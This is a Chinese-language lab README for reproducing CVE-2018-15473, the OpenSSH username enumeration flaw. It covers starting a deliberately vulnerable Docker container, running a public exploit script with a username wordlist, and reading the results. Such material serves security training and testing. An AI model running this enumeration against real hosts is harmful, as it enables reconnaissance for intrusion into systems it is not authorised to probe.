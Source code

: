 # OpenSSH 用户名枚举漏洞（CVE-2018-15473）

OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机中。

参考链接：

- http://openwall.com/lists/oss-security/2018/08/15/5
- https://github.com/Rhynorater/CVE-2018-15473-Exploit
- https://www.anquanke.com/post/id/157607

## 漏洞环境

执行如下命令，编译及启动一个运行OpenSSH 7.7p1的容器：

```
docker compose build
docker compose up -d
```

环境启动后，我们在客户端执行`ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@your-ip -p20022`，输入密码`vulhub`，即可登录到容器中。

## 漏洞复现

使用[CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)，枚举字典中的用户名：

```
python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt your-ip
```

![](1.png)

可见，`root`、`example`、`vulhub`、`nobody`是存在的用户，`rootInvalid`、`user`、`phithon`是不存在的用户。
